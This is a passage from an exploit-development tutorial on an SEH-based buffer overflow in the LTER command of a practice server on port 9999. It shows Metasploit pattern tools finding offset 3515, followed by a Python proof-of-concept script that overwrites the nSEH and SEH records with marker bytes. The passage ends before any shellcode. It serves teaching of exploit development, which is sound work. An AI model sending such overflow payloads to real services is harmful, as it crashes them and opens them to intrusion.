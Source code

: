 
##### As with any other buffer overflow, the next step is to use a pattern in order to find the offset through the cyclic pattern.

```term
root@whitecr0wz:~/Exploit-Dev/LTER# msf-pattern_create -l 5000 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab . . .
```

###### Response of the SEH Chain

![](/assets/img/LTER/2.png)

##### With the value 0x326E4531, the offset is found.

```term
root@whitecr0wz:~/Exploit-Dev/LTER# msf-pattern_offset -q 326E4531 
[*] Exact match at offset 3515
root@whitecr0wz:~/Exploit-Dev/LTER# 
```

##### Due to the fact that now we know the offset, we can check if the control of the nseh & seh register was obtained.

###### PoC code:

```term
import socket, sys, struct

buffer = "LTER /.:/" + "A" * 3515 + "BBBB" + "CCCC" + "\xff" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```
###### Response of the SEH Chain

